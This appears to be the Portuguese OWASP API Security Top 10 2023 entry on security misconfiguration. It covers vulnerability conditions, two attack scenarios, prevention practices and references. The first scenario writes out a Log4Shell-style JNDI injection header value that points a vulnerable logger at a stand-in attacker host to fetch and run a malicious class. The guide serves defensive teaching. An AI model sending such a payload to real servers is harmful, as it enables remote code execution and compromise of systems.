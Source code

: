 # API8:2023 Security Misconfiguration

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Predominante** : Detectability **Fácil** | Técnico **Severo** : Específico do Negócio |
| Os atacantes frequentemente tentam encontrar falhas não corrigidas, _endpoints_ comuns, serviços a funcionar com configurações padrão inseguras ou arquivos e diretórios não protegidos para obter acesso não autorizado ou conhecimento do sistema. A maior parte disto é conhecimento público e os _exploits_ podem estar disponíveis. | A má configuração de segurança pode ocorrer em qualquer nível da API, desde o nível da rede até o nível da aplicação. Ferramentas automatizadas estão disponíveis para detectar e explorar más configurações, como serviços desnecessários ou opções antigas. | As más configurações de segurança não expõem apenas dados sensíveis dos utilizadores, mas também detalhes do sistema que podem levar a um compromisso total do servidor. |

## A API é vulnerável?

A API pode ser vulnerável se:

* As devidas proteções de segurança não foram aplicadas em qualquer parte da
  API, ou se houver permissões mal configuradas em serviços de nuvem.
* Os últimos _patches_ de segurança estão em falta ou os sistemas estão
  desatualizados.
* Funcionalidades desnecessárias estão ativadas (por exemplo, verbos HTTP,
  funcionalidades de registo de eventos).
* Existem discrepâncias na forma como os pedidos são processados pelos
  servidores na cadeia de servidores HTTP.
* A Segurança da Camada de Transporte (TLS) está em falta.
* Diretivas de segurança ou de controlo de cache não são enviadas aos clientes.
* Uma política de Partilha de Recursos entre Origens (CORS) está em falta ou mal
  configurada.
* As mensagens de erro incluem _stack traces_ ou expõem outras informações
  sensíveis.

## Exemplos de Cenários de Ataque

### Cenário #1

Um servidor de API _back-end_ mantém um registo de acesso escrito por uma 
utilidade de registo _open-source_ popular de terceiros, com suporte para 
expansão de espaços reservados e pesquisas JNDI (Java Naming and Directory 
Interface), ambos ativados por defeito. Para cada pedido, uma nova entrada é 
escrita no ficheiro de registo com o seguinte padrão: 
`<method> <api_version>/<path> - <status_code>`.

Um ator malicioso emite o seguinte pedido de API, que é escrito no ficheiro de
registo de acesso:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Devido à configuração padrão insegura da utilidade de registo e a uma política 
de rede de saída permissiva, para escrever a entrada correspondente no registo 
de acesso, ao expandir o valor no cabeçalho `X-Api-Version` do pedido, a 
utilidade de registo irá buscar e executar o objeto `Malicious.class` do 
servidor controlado remotamente pelo atacante.

### Cenário #2

Um site de rede social oferece uma funcionalidade de "Mensagem Direta" que 
permite aos utilizadores manter conversas privadas. Para recuperar novas 
mensagens de uma conversa específica, o site emite o seguinte pedido de API (a 
interação do utilizador não é necessária):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Como a resposta da API não inclui o cabeçalho de resposta HTTP `Cache-Control`, 
as conversas privadas acabam por ser armazenadas em cache pelo navegador, 
permitindo que agentes mal-intencionados as recuperem dos ficheiros de cache do 
navegador no sistema de ficheiros.

## Como Prevenir

O ciclo de vida da API deve incluir:

* Um processo de proteção reprodutível que possa ser implantado de forma fácil
  e rápida com vista a um ambiente de execução devidamente protegido.
* Um processo de revisão e atualização de todas as camadas da API. A revisão
  deve incluir: ficheiros de orquestração, componentes da API e serviços na
  nuvem (e.g., permissões dos _buckets_ S3).
* Um processo automatizado para verificar de forma continua as configurações e
  definições em todos os ambientes (produção, _staging_, testes,
  desenvolvimento).

E ainda:

* Assegure que todas as comunicações de API, do cliente para o servidor de API e
  qualquer componente _downstream_/_upstream_, ocorram através de um canal de
  comunicação encriptado (TLS), independentemente de se tratar de uma API
  interna ou pública.
* Seja específico sobre quais verbos HTTP cada API pode utilizar: todos os
  outros verbos HTTP devem ser desativados (por exemplo, HEAD).
* As APIs que esperam ser acedidas a partir de clientes baseados em navegador
  (por exemplo, aplicação web _front-end_) devem, pelo menos:
  * implementar uma política adequada de Partilha de Recursos entre Origens
    (CORS).
  * incluir os Cabeçalhos de Segurança aplicáveis.
* Restrinja os tipos de conteúdo/formatos de dados recebidos àqueles que cumprem
  os requisitos funcionais/de negócio.
* Assegure que todos os servidores na cadeia de servidores HTTP (por exemplo,
  balanceadores de carga, proxies reversos e diretos, e servidores de
  _back-end_) processem os pedidos de entrada de forma uniforme para evitar
  problemas de dessincronização.
* Quando aplicável, defina e faça cumprir todos os esquemas de dados de resposta
  da API, incluindo respostas de erro, para evitar que informações de exceções e
  outras informações valiosas sejam enviadas para os atacantes.

## Referências

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externas

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
